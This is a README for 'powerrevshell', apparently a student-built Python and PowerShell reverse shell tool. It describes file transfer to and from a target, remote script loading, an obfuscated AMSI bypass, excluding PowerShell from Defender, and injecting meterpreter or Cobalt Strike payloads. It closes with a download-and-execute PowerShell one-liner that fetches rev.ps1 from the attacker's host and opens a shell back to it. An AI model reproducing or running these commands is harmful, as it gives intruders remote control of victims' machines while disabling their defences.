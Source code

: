 # Introduction

A small reverse shell project that i build during my university intership.\
It is written with Python and Powershell. To simply install it:

1.  Clone this repo
2.  Run the following code to install all the requirements
    ```
    pip install -r requirements.txt
    ```
3.  Run the following code to make the .py file executable or simply run it with python
    ```
    chmod +x powerrevshell.py or python3 powerrevshell.py
    ```
## Powerrevshell

![powerrevshell-start](https://user-images.githubusercontent.com/82824055/170969038-c81c54a0-721b-44f5-835b-86d11840211f.png)

Powerrevshell.py comes with several function accesibbile via the "menu" option.

### get - put

The get and put functionality are build using TCPSocket to transfer files between the machines, to prevent data loss, on each message, are sent support text and md5sum to know if the actual file option are sent correctly.

```
get <file.txt> / put <file.txt>
```

### smb-get

The smb-get functionality simply transfer a file using the Copy-Item cmdlet to the smbserver started suing impacket-smbserver.\
If you didn't start the program with the -smb switch or started youreself (impacket-smbserver) the command will fail.

```
smb-get <file.txt>
```

### down-file

The down-file functionality simply download a file from the current machine to the target machine using HTTP server with python.
If you didn't start the program with the -http switch or started youreself (python -m http.server 8000) the command will fail.

```
down-file <file.txt>
```

### load

The down-file functionality simply load a powershell script from the current machine to the target machine using HTTP server with python.
If you didn't start the program with the -http switch or started youreself (python -m http.server 8000) the command will fail.

```
load <file.ps1>
```

### amsi-bypass

The amsi-bypass functionality will try to bypass AMSI on the current shell by using the Matt Graeber amsi bypass method obfusced with two bytes array.

```
amsi-bypass
```

### exclude

The exlucde functionality will try to exclude powershell.exe from defender, admin permission are needed.

```
exclude
```

### payload

The payload functionality will try to create a new process and inject the shell payload can be meterpreter or cobalt strike...\
The paylaod must be a cs file.

```
payload <payload.cs>
```

### socks-start
### socks-stop
### socks
### close


## Rev.ps1

Rev.ps1 is the powershell script to connect back to us.\
To start the reverse shell run the following code on the target machine.

```
(New-Object System.Net.WebClient).DownloadString('http://<IP>/rev.ps1') IEX; Send-Shell -i <IP> -p <ShellPort>
```
